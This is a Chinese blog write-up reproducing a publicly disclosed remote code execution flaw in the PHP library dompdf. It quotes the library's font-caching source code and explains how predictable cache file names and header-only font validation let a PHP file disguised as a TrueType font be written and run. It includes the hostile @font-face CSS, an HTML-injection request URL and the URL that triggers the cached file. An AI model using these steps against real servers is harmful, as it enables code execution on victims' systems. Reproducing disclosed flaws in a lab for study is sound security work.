 ```yaml
---
title: dompdf 0day(RCE)复现
date: 2022-03-19
tags: 漏洞复现
categories: Technology
---
```




这次的漏洞是`dompdf`这样一个php的库，dompdf库用于将html呈现为pdf，还是比较新的。

最开始这个漏洞并不是rce，而是xss。

首先是两个配置：

在 PDF 渲染期间执行嵌入式 PHP，之后的被禁用了。

```php
/**
* Enable embedded PHP
*
* If this setting is set to true then DOMPDF will automatically evaluate
* embedded PHP contained within  ...  tags.
*
* ==== IMPORTANT ====
* Enabling this for documents you do not trust (e.g. arbitrary remote html
* pages) is a security risk. Embedded scripts are run with the same level of
* system access available to dompdf. Set this option to false (recommended)
* if you wish to process untrusted documents.
*
* This setting may increase the risk of system exploit. Do not change
* this settings without understanding the consequences. Additional
* documentation is available on the dompdf wiki at:
*
*
* @var bool
*/
private $isPhpEnabled = false;
```

远程资源加载：

```php
/**
* Enable remote file access
*
* If this setting is set to true, DOMPDF will access remote sites for
* images and CSS files as required.
*
* ==== IMPORTANT ====
* This can be a security risk, in particular in combination with isPhpEnabled and
* allowing remote html code to be passed to $dompdf = new DOMPDF(); $dompdf->load_html(...);
* This allows anonymous users to download legally doubtful internet content which on
* tracing back appears to being downloaded by your server, or allows malicious php code
* in remote html pages to be executed by your server with your account privileges.
*
* This setting may increase the risk of system exploit. Do not change
* this settings without understanding the consequences. Additional
* documentation is available on the dompdf wiki at:
*
*
* @var bool
*/
private $isRemoteEnabled = false;
```

查看这个是否开启可以xss构造：`?t=aa<link rel=stylesheet href="xxxxxxx/test.css">&pdf`，来包含一个外部css，判断这个选项是否开启。

若开启，dompdf即允许通过font-face 的css来加载自定义的字体。

```css
@font-face {
    font-family:'exploitfont';
    src:url('http://localhost:9001/xxxx.ttf');
    font-weight:'normal';
    font-style:'normal';
  }
```

使用外部字体的时候，dompdf将其存在`/lib/fonts`的目录中，并在`dompdf_font_family_cache.php`using中添加相应的条目`saveFontFamilies()`，这个函数将 dompdf 已知的字体编码为 PHP 数组，以及稍后查找它们所需的信息。：

```php
    /**
     * Saves the stored font family cache
     *
     * The name and location of the cache file are determined by {@link
     * FontMetrics::CACHE_FILE}. This file should be writable by the
     * webserver process.
     *
     * @see FontMetrics::loadFontFamilies()
     */
    public function saveFontFamilies()
    {
        // replace the path to the DOMPDF font directories with the corresponding constants (allows for more portability)
        $cacheData = sprintf("<?php return function (%s, %s) {%s", '$fontDir', '$rootDir', PHP_EOL);
        $cacheData .= sprintf("return array (%s", PHP_EOL);
        foreach ($this->fontLookup as $family => $variants) {
            $cacheData .= sprintf("  '%s' => array(%s", addslashes($family), PHP_EOL);
            foreach ($variants as $variant => $path) {
                $path = sprintf("'%s'", $path);
                $path = str_replace('\'' . $this->options->getFontDir(), '$fontDir . \'', $path);
                $path = str_replace('\'' . $this->options->getRootDir(), '$rootDir . \'', $path);
                $cacheData .= sprintf("    '%s' => %s,%s", $variant, $path, PHP_EOL);
            }
            $cacheData .= sprintf("  ),%s", PHP_EOL);
        }
        $cacheData .= ");" . PHP_EOL;
        $cacheData .= "}; ?>";
        file_put_contents($this->getCacheFile(), $cacheData);
    }
```

如果不能使用字体缓存索引，直接使用字体缓存是否可行？看下dompdf如何如何注册新字体(部分，具体在[这里](https://github.com/dompdf/dompdf/blob/v1.2.0/src/FontMetrics.php#L174))：

```php
/**
* @param array $style
* @param string $remoteFile
* @param resource $context
* @return bool
*/
public function registerFont($style, $remoteFile, $context = null)
{
   $fontname = mb_strtolower($style["family"]);
   $styleString = $this->getType("{$style['weight']} {$style['style']}");

   $fontDir = $this->options->getFontDir();
   $remoteHash = md5($remoteFile);

   $prefix = $fontname . "_" . $styleString;
   $prefix = preg_replace("[\\W]", "_", $prefix);
   $prefix = preg_replace("/[^-_\\w]+/", "", $prefix);

   $localFile = $fontDir . "/" . $prefix . "_" . $remoteHash;
   $localFile .= ".".strtolower(pathinfo(parse_url($remoteFile, PHP_URL_PATH), PATHINFO_EXTENSION));

   // Download the remote file
   list($remoteFileContent, $http_response_header) = @Helpers::getFileContent($remoteFile, $context);

   $localTempFile = @tempnam($this->options->get("tempDir"), "dompdf-font-");
   file_put_contents($localTempFile, $remoteFileContent);

   $font = Font::load($localTempFile);

   if (!$font) {
       unlink($localTempFile);
       return false;
   }

   $font->parse();
   $font->close();

   unlink($localTempFile);

   // Save the changes
   file_put_contents($localFile, $remoteFileContent);
   $this->saveFontFamilies();

   return true;
}
```

可以看到，新缓存字体的名字是确定了的，`字体名称`，`样式`，`MD5(RemoteURL)`这三个组成，比如，url是这样:`http://attacker.local/test_font.ttf`，样式为normal，那么将被存为：`testfont_normal_d249c21fbbb1302ab53282354d462d9e.ttf`

![image-20220319110855454](dompdf 0day(RCE)复现/image-20220319110855454.png)

那么这样的话，即使没有目录遍历的洞，也可以不用爆破直接知道文件名。

当然，上传的字体必须有效，必须能被加载和解析。

但是源码有个问题，他判断字体文件是否正常，是基于上传文件的文件头，类似Linux的判断方式，而不管文件后缀，那么即使使用其他后缀，只要符合`ttf`的文件头标准，仍可被解析。

下面是构造的`css`以及`ttf(php)`：

```css
@font-face {
    font-family:'exploitfont';
    src:url('http://localhost:9001/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
  }
```

![image-20220319111650926](dompdf/image-20220319111650926.png)



至于ttf文件结构？网上一堆。。。

下面直接使用[github](https://github.com/positive-security/dompdf-rce)的来复现：

开启应用和exp：

![image-20220319111921628](dompdf/image-20220319111921628.png)

使用exploit_font.php触发：

```
http://localhost:9000/index.php?pdf&title=<link rel=stylesheet href='http://localhost:9001/exploit.css'>
```

之后访问：`http://localhost:9000/dompdf/lib/fonts/exploitfont_normal_3f83639933428d70e74a061f39009622.php`

![image-20220319112233859](dompdf/image-20220319112233859.png)

成功触发。

u1s1这个洞完全可以出个CTF题，，

参考链接：

>   https://positive.security/blog/dompdf-rce
>
>   https://github.com/positive-security/dompdf-rce
>
>   [ttf文件格式](https://juejin.cn/post/7010064099027451912)